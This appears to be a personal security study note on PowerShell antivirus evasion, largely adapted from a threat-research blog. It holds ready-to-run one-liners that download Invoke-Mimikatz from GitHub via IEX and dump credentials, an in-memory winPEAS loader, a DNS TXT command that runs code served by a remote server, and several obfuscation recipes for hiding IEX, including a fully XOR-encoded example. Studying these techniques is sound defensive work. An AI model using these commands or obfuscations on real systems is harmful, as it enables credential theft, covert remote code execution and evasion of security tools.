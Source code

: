 # PowerShell Evasion
Although PowerShell is so heavily abused it's become predictable, these evasion techniques may still prove useful.
Frankly, one should use encryption to evade behavioral anti-virus.
> See [[Encrypted PowerShell]]
## Invoke-Expression (IEX)
>Basic evasion with PowerShell includes executing the PS command in-memory. The most straightforward way is via invoke-expression: `powershell IEX`

### Basic Execution Examples:
1. A malicious example of using an invoke expression to download and execute Mimikatz to dump credentials from a script hosted on GitHub. [Source](https://www.youtube.com/watch?v=7dEfKn70HCI)
```PowerShell
IEX(New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/PowershellMafia/Powersploit/refs/heads/master/Exfiltration/Invoke-Mimikatz.ps1"); Invoke-Mimikatz -Command privilege::debug; Invoke-Mimikatz -DumpCreds
```
2. Alternatively, the entire command can also be executed and then piped into an invoke expression at the end. [Source](https://www.reddit.com/r/WatchGuard/comments/16ttiux/blind_spots_of_watchguard_eppepdr/?rdt=45939), [Source](https://www.securonix.com/blog/hiding-the-powershell-execution-flow/)
```powershell
(New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/PowershellMafia/Powersploit/refs/heads/master/Exfiltration/Invoke-Mimikatz.ps1"); Invoke-Mimikatz -Command privilege::debug; Invoke-Mimikatz -DumpCreds|IEX
```
3. winPEAS in-memory
```PowerShell
(New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/peass-ng/PEASS-ng/refs/heads/master/winPEAS/winPEASps1/winPEAS.ps1")|IEX
```
### Obfuscation Methods
> The following subsections were sourced from [here](https://www.securonix.com/blog/hiding-the-powershell-execution-flow/)
#### Splitting Strings
One simple method of bypassing signature detection is by simply splitting out the IEX string into individual characters. While this method is less common with invoke expressions, it is still valid. This is as simple as splitting out the individual letters which will be compiled and put together again at the time of execution.

In figure 2 below, we have two examples of this. The first simply separates out the strings into individual characters. The second example is creating an array containing I, E, X and passing them into a variable. Then executing the variable along with the “-Join” command to append the characters together.
![[Pasted image 20250331140615.png]]
>Note: `.` acts as a Pipe Operator (`|`), creating a pipeline element
>>The "." [dot sourcing operator](https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_operators?view=powershell-7#dot-sourcing-operator-) will send AND receive variables from other scripts you have called. The "&" [call operator](https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_operators?view=powershell-7#call-operator-) will ONLY send variables. [Source](https://stackoverflow.com/questions/10727006/what-does-the-period-operator-do-in-powershell)
#### Character Substitution
Now we’re shifting gears into more advanced methods, in this case we’ll be substituting the I, E, and X characters with less obvious counterparts.

Let’s build off of the first example where we are simply appending individual characters together. Here we’ll be replacing the individual characters with their respective integer values. As you can see in the example below, we just need the `int` values for I, E and X. For example, as seen below, executing `[char]105` in the console will produce an “i”, and so forth. Each value is then written into our original script.
![[Pasted image 20250331140700.png]]
#### Character Substitution and Extraction
Let’s go deeper! Rather than simply replacing the characters, let’s find an existing character string that we can summon and then pull out the needed characters I, E and X. Careful consideration needs to be made as to the string we choose as the character string needs to be reliable across all Windows platforms.

One commonly used example we see with a lot of malware is leveraging existing environmental variables which contain the characters we need.

A few examples which are reliable on all current windows versions are `$env:COMPSPEC`, `$PSHome`, and `$ShellID`. Each of these provides between two and three characters needed for our “IEX” string. These characters can be spotted simply by echoing the variable in the terminal as seen in figure 4 below.

Once we’ve identified the needed characters, we can reference the character as an array object and combine them together to make IEX. For example, `$PSHome[21]` equates to “i” as it’s the 21st character in the `$PSHome` variable’s output string. `$PSHome[34]` would be the letter “e”: `“C:\Windows\System32\WindowsPowerShell\v1.0”`
![[Pasted image 20250331142805.png]]
Environmental variables are one form of extraction. Another form could be calling known PowerShell variables. This method, pictured in the first header image ([figure 1](https://www.securonix.com/wp-content/uploads/2023/02/1-Spot-the-PowerShell-invoke-expression.png "Figure 1 not shown in this document")) uses the PowerShell cmdlet [Get-Variable](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/get-variable?view=powershell-7.2) or the alias `“GV”` to extract a wildcard match `“*mdr*”` for the value `MaximumDriveCount`, which as you can guess, contains the letters I, E, and X, which we can then extract.
![[Pasted image 20250331142845.png]]
#### Character Substitution and Wildcard Matching (Globfuscation)
A more recently discovered technique recently seen in the wild is leveraging [wildcards](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_wildcards?view=powershell-7.2) to extract the IEX characters needed by any given output. This method takes advantage of the alias “IEX” itself and leverages the [Get-Alias](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/get-alias?view=powershell-7.2) or the [Get-Command](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/get-command?view=powershell-7.2) PowerShell cmdlet. The technique name “Globfuscation” was coined by threat researcher John Hammond as he [demonstrated](https://www.youtube.com/watch?v=WJlqQYyzGi8) the PowerShell data masking technique as seen in the [STEEP#MAVERICK campaign](https://www.securonix.com/blog/detecting-steepmaverick-new-covert-attack-campaign-targeting-military-contractors/) that our team published late last year.

Running `Get-Alias` alone will produce a list of all PowerShell cmdlet aliases present on the host including IEX. With a simple one-liner we can run the alias for Get-Alias, `gal` and by using question marks as wildcard matches we can extract string values from the output.
1. IEX using Get-Alias: `(gal ?e[?x])`
2. IEX using Get-Command: `(gcm ?e[?x])`

To break it down this command runs `Get-Alias`, and then looks for any character `?` followed by e, followed by any character (again “?”) that is followed by “x”. In this case, the only thing that would match the entire output of the Get-Alias command is simply: `iex`.![[Pasted image 20250331174306.png]]
##### Range Matching
We can further obfuscate by using a range in our `gal` search.

**How to Choose the Range (e.g., `a-l`, `v-w`):**
The range is arbitrary but must include the **specific character** in the alias. For example:

| Alias | Character to Match | Wildcard Pattern | Why?                      |
| ----- | ------------------ | ---------------- | ------------------------- |
| `gv`  | `v`                | `[v-w]`          | `v` is within `v` to `w`. |
| `nal` | `a`                | `[a-l]`          | `a` is within `a` to `l`. |
| `ls`  | `s`                | `[r-s]`          | `s` is within `r` to `s`. |
But it must be made clear, that if you're using a range, but want a specific Alias, your range must be narrow enough(ex. `[a-c]`) to only include that alias in your results.
- **`?`**: Use **outside** `[]` to match a single unknown character.
- **`[a-l]`**: Use **inside** `[]` to restrict to a specific range.
- `(gal n?[l])`, `(gal n?l)`, & `(gal n?[l-m])` all return the same result.
- You can use the `?` wildcard before a range, `[]`, to use match any character within the range(ex. `(gal n?[l])`)
#### Character Substitution and Reordering
This method is very popular among malware authors and can sometimes be incredibly difficult to decode. Recording involves creating a [PowerShell format string](https://devblogs.microsoft.com/scripting/understanding-powershell-and-basic-string-formatting/) and then calling the instantiated components of the format string in random orders to evade detection.

In the example below, the format string is created and two operators are defined: `{1}{0}`.

After the following `-f` flag, comma delimited fields are then called based on the operator’s value. In this case value 1 is called first “IE” followed by value 0 “X”. Putting them together you get “IEX”.

Adding what we learned from the variable substitution section, we can combine the two methods to once again produce the string IEX. (figure 7)![[Pasted image 20250331174502.png]]
#### Invoking via DNS TXT Records
A recently discovered method to initiate an invoke expression without using traditional or obfuscated PowerShell syntax is to initiate a remote invoke using DNS TXT records. It’s possible that an attacker could use this to call a process using an invoke expression using the nslookup process. This would obviously require some setup on the attacker’s end. A remote C2 server configured with a DNS listener, and proper text records would be needed for this invoke code to execute properly.

Command Example: `& powershell .(nslookup -q=txt remote.dns.server)[-1]`

In the example above, the remote DNS server would host a TXT record and the contents of the TXT record would be invoked, and the contents of the TXT record would be executed in PowerShell.
#### Circling back
Now, using what we know, let’s revisit the original PowerShell script and identify the obfuscated invoke expression.

```PowerShell
&((.(gal g[v-w]) '*mDr*').namE[3,11,2]-JOiN") ( [sTrING]::JOIn(" ,('39s33-43%114y56F116j114%57V116y43V41-36k111F46V96V110k46y37-46m96j121s106102V103-111m46s32k41F33V43s114s57s116%114y56F116%43y36k111k46k38-104s46F3746m101s101%46-32'.SPlit( 'y-sm%kjV>F') | FOreach-OBject{ [ChAR] ( $_ -BXOr 0x09 )} )) )
```

The invoke expression is highlighted in yellow, while the rest is the actual `ifconfig /all` command. The invoke-expression has a few interesting nested functions which help hide its original intent. Working outward, we find the command:

`.(gal g[v-w])`

This simple command simply calls and returns a wildcard match for the alias `gv` or `Get-Variable`. Let’s substitute that value in to clean it up a bit:

`&((gv ‘*mDr*’).namE[3,11,2]-JOiN”)`

Get-Variable is now called and another wildcard match is performed for `*mDr*` which matches the `MaximumDriveCount` variable. The variable’s “name” field is called and only the characters 3, 11, and 12 are called and joined together. And as guessed, those three characters translate to I, E and X. The IEX command is then used to execute the second half of the command which is XOR encoded.
# Resources
- [Securonix Threat Research Knowledge Sharing Series: Hiding the PowerShell Execution Flow](https://www.securonix.com/blog/hiding-the-powershell-execution-flow/)
- [Hiding the PowerShell Execution Flow](https://www.securonix.com/blog/hiding-the-powershell-execution-flow/)
- [What is Fileless Malware? PowerShell Exploited](https://www.varonis.com/blog/fileless-malware)


#powershell #invoke-expression #iex #mimikatz #credential #credentialtheft #base64 #antivirus #evasion 